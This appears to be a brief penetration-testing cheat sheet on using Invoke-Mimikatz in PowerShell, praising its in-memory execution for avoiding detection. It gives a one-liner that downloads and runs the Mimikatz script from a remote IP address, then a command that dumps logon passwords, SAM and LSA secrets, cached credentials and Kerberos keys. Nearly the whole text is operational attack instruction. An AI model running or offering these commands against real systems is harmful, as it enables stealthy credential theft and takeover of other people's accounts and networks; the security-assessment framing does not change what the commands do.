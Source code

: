 # Invoke-Mimikatz
Using Invoke-Mimikatz in PowerShell offers stealthy in-memory execution that avoids detection by not writing files to disk, making it ideal for security assessments with minimal system footprint.

## Deliver
1. Start a Powershell with administrative privileges
2. Inject mimikatz into the memory:
```
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.165/Invoke-Mimikatz.ps1')
```

## Usage
**NOTE**: Only choose the commands you need.
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /inject" "lsadump::cache" "sekurlsa::ekeys" "exit"'
```
